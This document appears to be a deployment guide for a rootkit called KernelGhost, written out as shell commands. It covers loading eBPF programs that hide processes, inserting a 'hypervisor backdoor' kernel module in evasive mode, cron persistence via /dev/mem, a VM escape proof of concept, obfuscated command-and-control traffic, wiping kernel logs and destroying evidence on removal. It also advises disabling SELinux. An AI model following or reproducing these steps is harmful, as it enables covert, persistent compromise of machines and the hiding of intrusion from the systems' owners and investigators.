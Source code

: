 # KernelGhost Deployment Guide

## Pre-requisites

### Hardware Setup
```bash
# Enable IOMMU in BIOS
$ dmesg | grep -e DMAR -e IOMMU
[    0.000000] DMAR: IOMMU enabled

# Verify nested virtualization
$ cat /sys/module/kvm_intel/parameters/nested
Y
```

### Software Requirements
```bash
# Ubuntu 22.04+ Setup
sudo apt update && sudo apt install \
linux-headers-$(uname -r) \
clang-15 lld-15 \
bpftool \
qemu-kvm libvirt-daemon-system
```

## Installation

### 1. Build Components
```bash
git clone --depth 1 https://github.com/yourorg/kernelghost
cd kernelghost

# Build all components (kernel module, eBPF, userland)
make all -j$(nproc)
```

### 2. Deploy Stealth Layer
```bash
# Load eBPF programs with stealth mode
sudo bpftool prog loadall src/eBPF_stealth/process_hider.bpf.o /sys/fs/bpf/ghost \
map name ghost_pids pinned /sys/fs/bpf/ghost_pids

# Verify BPF programs
sudo bpftool prog show | grep ghost
```

### 3. Install Hypervisor Backdoor
```bash
# Load kernel module with evasive options
sudo insmod src/hypervisor/kernelghost.ko \
evasive_mode=1 \
payload_addr=0x$(sudo cat /proc/iomem | grep SPI | cut -d'-' -f1)
```

### 4. Configure Persistence
```bash
# Install control utility
sudo make -C src/userland install

# Set up cron persistence
echo "@reboot /usr/local/bin/ghostctl revive --payload /dev/mem" \
| sudo tee /etc/cron.d/ghost_resurrection
```

## Post-Install Verification

### Process Hiding Test
```bash
# Hide current shell process
./examples/process_ghosting $$

# Verify hiding
ps -p $$ # Should show error
cat /proc/$$/status # Permission denied
```

### VM Escape Test
```bash
# On KVM host
./examples/vm_escape_poc

# Expected output
[+] Host memory modified at 0xffff88800a2b8000
```

## Operational Security

### Network Obfuscation
```bash
# Obfuscate C2 traffic on port 443
ghostctl cloak \
--proto tcp \
--port 443 \
--algorithm AES-256-GCM \
--key $(openssl rand -hex 32)
```

### Forensic Protection
```bash
# Wipe kernel logs
ghostctl shred \
--target /var/log/kern.log \
--passes 7 \
--method gutmann

# Disable core dumps
sysctl -w kernel.core_pattern=|/bin/false
```

## Troubleshooting

| Symptom                    | Solution                         |
|----------------------------|----------------------------------|
| BPF program load failed    | Disable SELinux/bpf-lsm          |
| Hypercall not supported    | Enable nested virtualization     |
| VMBus exploit stalls       | Use Windows Server 2022 host     |

## Uninstallation
```bash
# Remove all components
sudo ghostctl purge \
--destroy-evidence \
--shred-payload

# Secure cleanup
make clean && sudo shred -vzn 3 -u kernelghost
```
